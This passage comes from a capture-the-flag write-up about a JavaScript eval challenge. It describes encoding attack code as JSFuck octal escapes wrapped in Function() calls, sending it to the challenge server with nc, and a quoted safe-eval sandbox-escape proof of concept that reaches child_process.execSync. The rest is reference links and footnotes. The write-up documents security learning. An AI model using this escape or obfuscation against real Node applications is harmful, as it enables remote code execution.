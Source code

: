 What this does is,

1. Store the JSFuck code for a backslash character in a variable `backslash` for convenience.

2. Split the attack code I want to execute (inside `Array.from()`) into individual characters, convert the characters into an octal escape sequence (`backslash` + the code point of the character in base 8), then join them all together with `+` signs. This sets `w` to code to generate a long string of octal sequences.

   For example, the string `hello` would become `'\' + 150 + '\' + 145 + '\' + 154 + '\' + 154 + '\' + 157`.

3. Wrap `w` in code that puts the octal sequences in a string literal. This is essentially the same as

   ```js
   w = `return "${w}"`
   ```

4. Wrap `w` in code that converts the string into a function then calls it.

   ```js
   w = `Function(${w})()`
   ```

   All this is just to produce a string containing the original attack script.

5. Wrap `w` again to actually call my script:

   ```js
   w = `Function(${w})()`
   ```

So I ran the script to generate code, which I pasted into an unassuming 350-kB file that I piped into the `nc` server.

```shell
$ cat test/lactf-jsfudge.js | nc chall.lac.tf 31130
Gimme some js code to run
oopsie woopsie stinki poopie ReferenceError: require is not defined
    at eval (eval at <anonymous> (eval at runCode (/app/run:16:21)), <anonymous>:3:1)
    at eval (eval at runCode (/app/run:16:21), <anonymous>:1:350288)
    at runCode (/app/run:16:21)
    at /app/run:31:5
    at process.processTicksAndRejections (node:internal/process/task_queues:95:5)
```

What?

Even though it didn't look like it in index.js, `eval` seemed to be sandboxed somehow, and `require` wasn't directly available.

Okay, fine. I vaguely recalled from a [prior challenge][prior] that it can be fairly trivial to bypass this. I looked online and found [this vulnerability][vuln], which gave a pretty simple proof of concept:

[prior]: http://127.0.0.1:4000/longer-tweets/ctf/#ctf-node-calculator-escape-vm-codegeneration-false
[vuln]: https://security.snyk.io/vuln/SNYK-JS-SAFEEVAL-3373064


```js
const safe_eval = require('safe-eval')
code = `
import('test').catch((e)=>{})['constructor']['constructor']('return process')().mainModule.require('child_process').execSync('touch rce')
`
safe_eval(code)
```


[acmucsd]: https://acmucsd.com/communities#Cyber
[acmucla]: https://www.acmcyber.com/
[lactf]: https://lac.tf/
[jsfuck]: https://jsfuck.com/
[strings]: https://en.wikipedia.org/wiki/Strings_(Unix)
[ghidra]: https://ghidra-sre.org/
[dogbolt-aplet321]: https://dogbolt.org/?id=4c61df44-da40-4158-80b4-f4155fbf227e
[strstr]: https://cplusplus.com/reference/cstring/strstr/
[bendera]: https://en.wiktionary.org/wiki/bendera#Indonesian
[wiki]: https://id.wikipedia.org/wiki/Bendera_Indonesia
[dcode]: https://www.dcode.fr/monoalphabetic-substitution
[indofreq]: https://www.sttmedia.com/characterfrequency-indonesian
[^1]: Something I never got to use at UCSD because UCSD didn't have a two-year housing guarantee.
[^2]: The deepest darkest secret doesn't work because the server just sets it to `todo` for all non-Samy users.
[fetch]: https://developer.mozilla.org/en-US/docs/Web/API/fetch
[italics]: https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/String/italics
[^10]: You might be wondering how JSFuck can create a function in the first place. You can get `a` from `false` and `t` from `true`, and arrays have a method named `at`, which you can access with `[]['a' + 't']`. It's also possible to get the other letters in `constructor`, so you can use `[]['at']['constructor']` to get a reference to the `Function` constructor, which you can use to convert strings to functions. For example, `Function('return 3')` creates a function that returns 3.
[gen]: ../files/lactf/lactf-jsfudge.js
[gener]: ../files/lactf/jsfudge-codegen.js
[e]: https://github.com/uclaacm/lactf-archive/blob/main/2024/rev/glottem/glottem#L10
[polyglot]: https://en.wikipedia.org/wiki/Polyglot_(computing)
[^11]: This was originally a Node-specific feature that has recently been [standardized into JavaScript][shebang], adding a fourth comment syntax to JavaScript's existing family of `//`, `/* */`, and `<!-- -->`.
[shebang]: https://github.com/tc39/proposal-hashbang
[server]: https://github.com/uclaacm/lactf-archive/blob/main/2024/web/quickstyle/server.js
[note]: https://github.com/uclaacm/lactf-archive/blob/main/2024/web/quickstyle/note.js
[nesting]: https://developer.mozilla.org/en-US/docs/Web/CSS/CSS_nesting
[^12]: I tried looking through my browsing history, but there's no evidence of me ever learning about this from anything online. Based on my browsing history, it just looks like I was trying things like `<span id="document">` then suddenly had a stroke of genius and tried doing `<form name=querySelectorAll>`. Then, I got confused where I got this idea from and tried to look up "form name getelementbyid injection" to find the original post.
[^13]: Again, as noted at the beginning of the article, everyone at UCSD is part of our team. I don't think this counts as cheating. At worst it's just some OSINT.
[paradox]: https://www.dcode.fr/birthday-problem
[^14]: It's possible for a trigraph to be missing a pair, like having `abc` but not `ab`, due to CSS variable collisions.
[worker]: https://workers.cloudflare.com/
[tunnel]: https://developers.cloudflare.com/cloudflare-one/connections/connect-networks/
[workers]: https://blog-cloudflare-com.webpkgcache.com/doc/-/s/blog.cloudflare.com/announcing-workers-dev/
[^15]: Like our dining halls' mobile ordering app.